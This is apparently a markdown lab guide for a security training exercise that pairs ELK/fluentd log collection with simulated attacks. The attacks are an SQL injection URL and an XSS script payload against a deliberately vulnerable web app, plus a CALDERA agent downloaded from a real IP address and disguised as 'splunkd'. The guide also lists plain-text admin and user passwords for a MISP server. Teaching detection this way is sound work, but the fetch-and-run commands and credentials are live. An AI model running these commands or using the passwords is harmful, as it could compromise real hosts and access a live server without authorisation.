




# Attack Anatomy

After Installing ELK & fluentd
  We should generate some log in the following files : <br>
     - /var/log/httpd/access_log<br>
	   - /var/log/httpd/error_log<br>
	   - /var/log/httpd/modsec_audit.log

By Testing web application attack using the following link:<br>
#### Begin attack Simulation
SQL injection<br>
http://127.0.0.1/Vulnerable-Web-Application-master/SQL/sql1.php?category=Gifts%27+OR+1=1--

XSS<br>
http://127.0.0.1/Vulnerable-Web-Application-master/XSS/XSS_level1.php
<script>alert(123)</script>

* Let move to elacticSearch 
  #### go to  Stack Management > Index Management 
   
   you should fine the following Index
   
   
   #### Creat Index pattern  Stack Management > Index patterns
   
   
   Name : apache_error_log_result*
   Timestamp field : @timestamp
    
    
  * Now go to Discover, you should have date visualisation like this
  


[6c1d8c4afbc7f85f05fb2e4d17e5553255b0195a0b56ba5309e362e2156debfc]


 
## CALDERA
http://66.117.8.162:8888/<br>


  ```sh
server="http://66.117.8.162:8888";<br>
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd1;<br>
chmod +x splunkd1;<br>
./splunkd1 -server $server -group red1 -v<br>
  ```

As root user<br>

Change N by your Id on "splunkdN"<br>
Change N by your Id on "redN"<br>
run the following command : <br>

  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkdN;<br>
chmod +x splunkdN;<br>
./splunkdN -server $server -group redN -v<br>
  ```
  
Verified agent status<br>
Define Adversaries profile : Thief<br>
Expand operation<br>

Go to Exfilled Files, and download your exfiltered data<br>


## MISP
http://66.117.8.162:8080/users/admin_index<br>
admin				kVYoghBmxQOH4o4HnQmcsBZiA<br>
admin@admin.test		6_EusicnWdL3zHvl0Qm5IhRjS<br>
user1@testmips.com		Mssjo20s@sjs+qs51<br>
user2@testmips.com		Mssjo20s@sjs+qs521<br>
user3@testmips.com		Mssjo20s@sjs+qs53<br>
user4@testmips.com		Mssjo20s@sjs+qs54<br>
user5@testmips.com		Mssjo20s@sjs+qs55<br>
user6@testmips.com		Mssjo20s@sjs+qs56<br>
user7@testmips.com		Mssjo20s@sjs+qs57<br>
user8@testmips.com		Mssjo20s@sjs+qs58<br>
user9@testmips.com		Mssjo20s@sjs+qs59<br>
user10@testmips.com		Mssjo20s@sjs+qs10<br>


https://github.com/kbandla/APTnotes
https://github.com/center-for-threat-informed-defense/adversary_emulation_library
https://github.com/center-for-threat-informed-defense/adversary_emulation_library/blob/master/apt29/Intelligence_Summary.md
https://center-for-threat-informed-defense.github.io/attack-flow/example_flows/
https://docs.google.com/spreadsheets/u/1/d/1H9_xaxQHpWaa4O_Son4Gx0YOIzlcBWMsdvePFX68EKU/pubhtml?pli=1#
https://github.com/mxm0z?tab=repositories
https://github.com/mxm0z/awesome-threat-detection#trainings
https://github.com/microsoft/msticpy


https://mitre-attack.github.io/attack-navigator/


 
